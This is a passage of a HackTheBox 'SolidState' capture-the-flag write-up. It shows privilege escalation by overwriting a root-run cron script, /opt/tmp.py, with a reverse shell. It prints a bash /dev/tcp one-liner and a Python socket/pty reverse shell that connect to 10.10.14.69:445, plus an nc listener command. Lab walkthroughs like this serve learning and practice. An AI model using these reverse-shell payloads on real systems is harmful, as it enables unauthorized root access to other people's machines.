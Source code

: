 ![job-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/job-24.png)

And here it is, it's probably a root cron job. To exploit this we need to add a reverse shell line inside this scrpt. 

At first I tried appending a reverse shell line to the end of the `/opt/tmp.py` file using:

```bash
echo 'os.system("bash -i >& /dev/tcp/10.10.14.69/445 0>&1")' >> tmp.py
```

But this didnt work. So instead I used the following command to overwrite the file entirely:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.69",445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' > tmp.py
```

![cat-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/cat-25.png)

I then setup the listner with:

```bash
rlwrap nc -lnvp 445
```

And after a few seconds I got a connection:

![root-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/root-26.png)
